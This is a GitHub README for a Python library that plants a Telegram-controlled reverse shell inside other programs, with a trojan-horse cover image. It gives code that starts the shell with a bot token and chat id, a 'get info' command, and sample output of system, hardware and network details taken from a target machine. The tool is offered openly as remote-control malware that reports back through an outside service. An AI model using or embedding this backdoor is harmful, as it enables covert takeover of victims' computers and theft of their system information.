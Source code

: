  <p align="center">
<img src='./cover.png' style="border: white;border-radius: 2pc;" alt='trojan horse'/>
</p>

# py tel reverse shell 
![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54) ![Telegram](https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white)
> the reverse shell in your telgram!

<br>

## What is this?
This program is a Python library that you can use to put an inverted shell connected to Telegram in any program. And control the target system from within the telegram.

# How does it work?
Currently, this **Python library** cannot be installed using pip, but it can be used this way anyway.

```python 
# sample program
from py_tel_reverse_shell import tel_shell



## get token from @BotFather in telegram
my_token = "2018473XXXXXXXXXXXXXXXXXXXXX-3M"
## get your number id from @userinfobot in telegram
my_chat_id = "19XXXXX25"


tel_shell.start_shell(bot_token=my_token,chat_id=my_chat_id)
```
and over. You can easily put an inverted shell connected to Telegram in your program.

<br>

# options
*You can send these words to the robot to get the answer.*
```bash
get info #get full info from target
```
sample output:
```text
-------- Boot Time -----------
 Boot Time: 2021/9/20 13:56:22
 -------- system info -----------
 platform: Linux
 platform-release: 5.13.16-200.fc34.x86_64
 platform-version: 1 SMP Mon Sep 13 12:39:36 UTC 2021
 architecture: x86_64
 hostname: optimus
 ip-address: 192.168.1.36
 public IP address: 31.xxx.xxx.32
 -------- CPU info -----------
 processor: x86_64
 Physical cores: 2
 Total cores: 2
 Max Frequency: 3200.00Mhz
 Min Frequency: 800.00Mhz
 Current Frequency: 895.82Mhz
 Total CPU Usage: 23.4%
 -------- Memory info -----------
 Total: 7.66GB
 Available: 4.81GB
 Used: 2.09GB
 Percentage: 37.2%
 -------- SWAP info -----------
 Total: 14.66GB
 Free: 14.40GBUsed: 266.50MBPercentage: 1.8%
 -------- Network info -----------
=== Interface: lo ===
 IP Address: 127.0.0.1
 Netmask: 255.0.0.0
 Broadcast IP: None
=== Interface: lo ===
 MAC Address: 00:00:00:00:00:00
 Netmask: None
 Broadcast MAC: None
=== Interface: enp2s0 ===
 IP Address: 192.168.1.36
 Netmask: 255.255.255.0
 Broadcast IP: 192.168.1.255
=== Interface: enp2s0 ===
 MAC Address: 1c:xx:xx:xx:a2:c8
 Netmask: None
 Broadcast MAC: ff:ff:ff:ff:ff:ff
=== Interface: virbr0 ===
 IP Address: 192.168.122.1
 Netmask: 255.255.255.0
 Broadcast IP: 192.168.122.255
=== Interface: virbr0 ===
 MAC Address: 52:xx:xx:xx:6c:93
 Netmask: None
 Broadcast MAC: ff:ff:ff:ff:ff:ff
 Total Bytes Sent: 83.69MBTotal Bytes Received: 175.42MB
```